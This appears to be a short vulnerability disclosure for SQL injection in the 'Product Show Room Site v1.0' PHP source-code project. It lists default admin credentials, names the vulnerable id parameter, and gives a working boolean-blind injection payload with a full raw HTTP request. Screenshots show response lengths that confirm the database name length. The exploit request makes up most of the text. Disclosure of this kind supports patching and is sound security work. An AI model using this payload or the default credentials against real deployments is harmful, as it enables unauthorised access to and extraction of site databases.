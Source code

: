 # Product Show Room Site v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15370/product-show-room-site-phpoop-free-source-code.html

Vulnerability File: /psrs/?p=products/view_product&id=

Vulnerability location: /psrs/?p=products/view_product&id=, id

Current database name: psrs_db ,length is 7

[+] Payload: GET /psrs/?p=products/view_product&id=1%27%20and%20length(database())%20=7--+ // Leak place ---> id

```sql
GET /psrs/?p=products/view_product&id=1%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
```

When length (database ()) = 6, Content-Length: 20014
![image](https://user-images.githubusercontent.com/53587159/171565007-938cd00b-1e61-4730-8bbc-e581ec9ce61c.png)

![image](https://user-images.githubusercontent.com/53587159/171565070-ddf381fc-beda-4e86-af10-1f94593cd1aa.png)

When length (database ()) = 7, Content-Length: 21494

![image](https://user-images.githubusercontent.com/53587159/171564971-3a7b2faa-7bbb-4868-90d4-ef2fd986033f.png)

![image](https://user-images.githubusercontent.com/53587159/171565038-c214365f-3795-44a5-8113-438cda76060e.png)
